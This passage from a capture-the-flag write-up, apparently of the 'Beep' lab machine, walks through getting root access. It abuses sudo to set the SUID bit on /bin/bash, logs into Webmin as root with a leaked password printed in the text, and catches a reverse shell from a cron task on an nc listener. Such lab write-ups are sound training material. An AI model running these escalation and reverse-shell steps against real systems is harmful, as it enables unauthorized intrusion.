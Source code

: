 ```
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```

`chmod` jumps out right away. I’ll pick a file, like `/bin/bash`, and set it to SUID:

```

bash-3.2$ ls -l /bin/bash
-rwxr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash
bash-3.2$ sudo chmod 4755 /bin/bash
bash-3.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 729292 Jan 22  2009 /bin/bash

```

Now just run it (with `-p` to not drop privs) and get a root shell:

```

bash-3.2$ bash -p
bash-3.2# id
uid=100(asterisk) gid=101(asterisk) euid=0(root)

```

## Webmin [Path #2]

Trying the username root with the passwords I collected from the LFI, I can login to webmin with root / jEhdIekWmdjE. This interface is designed to administer the machine, and has full root access:

![image-20210218143335619](https://0xdfimages.gitlab.io/img/image-20210218143335619.png)

Logged in here, I basically own the system. I can change passwords for any user (see image above), schedule crons, install packages, or run commands as any user.

I’ll create a task as root:

![image-20210218143717829](https://0xdfimages.gitlab.io/img/image-20210218143717829.png)

A minute later when it runs, a shell comes to `nc`:

```

root@kali$ sudo nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.7] 37697
bash: no job control in this shell
[root@beep /]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)

```
